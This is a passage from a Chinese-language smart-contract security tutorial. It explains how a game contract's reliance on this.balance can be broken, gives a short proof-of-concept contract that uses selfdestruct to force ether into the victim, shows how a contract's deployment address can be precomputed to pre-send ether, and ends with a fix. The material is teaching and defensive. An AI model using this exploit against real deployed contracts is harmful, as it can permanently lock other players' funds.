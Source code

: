这个合约代表一个简单的游戏（自然会引起[竞态条件（Race-conditions）](https://github.com/slowmist/Knowledge-Base/blob/master/solidity-security-comprehensive-list-of-known-attack-vectors-and-common-anti-patterns-chinese.md#%E6%9D%A1%E4%BB%B6%E7%AB%9E%E4%BA%89%E9%9D%9E%E6%B3%95%E9%A2%84%E5%85%88%E4%BA%A4%E6%98%93)），玩家可以将 `0.5 ether` 发送给合约，希望成为第一个达到三个里程碑之一的玩家。里程碑以Ether 计价。当游戏结束时，第一个达到里程碑的人可以获得合约的部分Ether。当达到最后的里程碑（10 Ether）时，游戏结束，用户可以取走奖励。

该合约的问题出在`uint currentBalance = this.balance + msg.value;`(以及相关的\[16\]行)和\[32\]行对this.balance的错误使用。攻击者可以通过上述提到的三种方式将ether置入合约:

比如第一种方式：

```{.solidity}
pragma solidity ^0.4.22;

contract POC {
    address owner;
    
    constructor() public payable {
        owner = msg.sender;
    }
    
    modifier onlyOwner() {
        require(msg.sender == owner);
        _;
    }
    
    function attack(address _addr) public onlyOwner {
        selfdestruct(_addr);
    }
    
    function() external payable {}
}
```

部署合约的时候在交易中附加0.1
ether，然后调用attack函数自毁合约，此时将会把0.1
ether发送到案例合约，因为案例合约每次只能接收0.5
ether，普通玩家将永远不能满足里程碑的要求，游戏将没有胜利的玩家，除非有剩下的0.4
ether被强行打入合约。

第二种方式：

使用solidity计算某个合约的部署地址的方法是`address(keccak256(0xd6, 0x94, _from, nonce))`其中，`_from`表示部署合约的账号的地址，nonce表示账号地址部署这个合约时的nonce，即最新的交易序号+1。如果部署合约的账户是第一次交易，如果账户是合约，nonce=1，如果是普通用户，nonce=0：

```{.solidity}
nonce0= address(keccak256(0xd6, 0x94, _from, 0x80))
nonce1= address(keccak256(0xd6, 0x94, _from, 0x01))
nonce2= address(keccak256(0xd6, 0x94, _from, 0x02))
```

- 漏洞修复

此漏洞是对this.balance的滥用，在可能的情况下，合约逻辑应避免依赖于合约余额的确切值，因为它可以在合约逻辑之外被人为操纵。如果合约逻辑必须基于this.balance，那么需要考虑合约意外的余额。
